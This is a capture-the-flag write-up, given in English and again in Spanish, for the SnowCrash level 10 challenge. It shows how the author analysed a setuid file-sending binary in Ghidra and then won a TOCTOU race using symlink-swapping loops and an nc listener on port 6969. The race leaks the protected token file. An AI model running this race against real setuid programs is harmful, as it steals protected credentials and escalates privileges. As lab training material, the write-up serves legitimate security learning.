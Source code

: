 ### LEVEL10 (BONUS)


- Two files with these permissions:    
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Execute ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- I create a file in tmp and execute on it.
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- It seems that `./level10` sends the content of a file to an IP.

- We download the level10 file locally.
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 
    ```

- We decompile with Ghidra.

- In the main function, we find:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- The port it expects the connection on is `6969`.

- We use `tmux` on the snow-crash machine.

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```
- Then...


- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```
- Alright, we know what it does.

- Let's go back to Ghidra.

- We see:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
        { ... }
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- It only sends the file if we have permissions on the file.

- But there's a possible attack vector, TOCTOU (Time-of-check to time-to-use).

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Condole1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- We have the password :)

---

### LEVEL10 (BONUS)

- Dos archivos con estos permisos:
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Ejecuto ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- Creo un archivo en tmp y ejecuto sobre este
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- Parece que `./level10` envía el contenido de una archivo a una ip

- Descargamos en local el archivo level10
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 

    ```

- Descompilamos con Ghidra

- En el main encontramos:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- El puerto que espera la conexion es el `6969`

- Usamos `tmux` en la maquina snow-crash

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```

- Luego...

- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```

- Bien, sabemos lo que hace

- Volvemos a Ghidra

- Vemos:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
        { ... }
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- Solo envía el archivo si tenemos permisos en el archivo archivo

- Pera hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Condole1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- tenemos la pass :)


